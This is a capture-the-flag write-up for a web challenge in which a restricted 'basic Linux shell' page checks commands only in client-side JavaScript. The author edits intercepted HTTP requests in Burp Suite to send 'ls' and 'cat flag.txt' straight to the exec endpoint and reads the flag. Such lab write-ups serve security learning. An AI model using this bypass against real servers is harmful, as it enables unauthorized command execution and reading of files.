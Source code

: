 # <u>The Shell Shocker</u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 80
## Description
Our CyberMaterial developer thought they’d created the ultimate basic Linux shell, only the essentials, nothing fancy. But we think they might have missed a trick or two. 😏

Your task? See if you can get this shell to do something it wasn’t exactly “designed” to do. Think of it like asking a fish to climb a tree. 🌳🐟

http://challenge.ctf.cybermaterial.com/a/

## Solution
On opening the website I immediately tried to run some linux commands but it didn't work.

Inspected the website, and came to `network` and refreshed the page. Saw that path of the `styles.css` and `script.js` was not properly configured. and it can't get it from its directory.

Went to `/static/script.js` and `/static/style.css` and found out the files.

Script.js
```js
const commandForm = document.querySelector('#command-form');
const commandInput = document.querySelector('#command-input');
const outputDiv = document.querySelector('#output');

commandForm.addEventListener('submit', async (event) => {
  event.preventDefault();
  
  const command = commandInput.value;
  
  const validCommand = /^((uname|echo|pwd|whoami)\s*([-\w\s]*))?$/i.test(command);
  
  if (!validCommand) {
    outputDiv.textContent = 'Error: Invalid command. Please enter a valid command (uname, echo, pwd, or whoami) with optional arguments and options separated by spaces and hyphens.';
    return;
  }
  
  try {
    const response = await fetch('/exec', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ command }) 
    });
    const result = await response.text();
    outputDiv.textContent = result;
  } catch (error) {
    console.error(error);
    outputDiv.textContent = `Error: ${error.message}`;
  }
});
```

According to the regex we can use commands like uname, echo, pwd, whoami.

Now I open the website on `burpsuite` to intercept the requests, fix them and then send to the server.

We change the request 
```
GET /a/%7B%7B%20url_for('static',%20filename='style.css')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
to 
```
GET /a/static/style.css HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

and

```
GET /a/%7B%7B%20url_for('static',%20filename='script.js')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to this
```
GET /a/static/script.js HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Now both the css and js files will be properly loaded. Next lets try any random command which is allowed.

The request we get is 
```
POST /exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"pwd"}
```

We see that it is `POST /exec` but the website has a `/a`. So we modify this request as well by writing `/a/exec` instead of `/exec` and forward it.

![](shell_1.png)

It shows `Command not allowed`. The server has some other implementation. Either ways, next just try the command `ls` but change the request instead of writing in the website as it will show error due to the client side js. 

The output we get is `{"output":"__pycache__\napp.py\nflag.txt\nindex.html\nstatic\ntemplates\n"}`

Next just send `cat flag.txt` as the command and viola, you get the flag.

Flag:- `CM{c0mMAnd_INjEc7iON_f7w}`

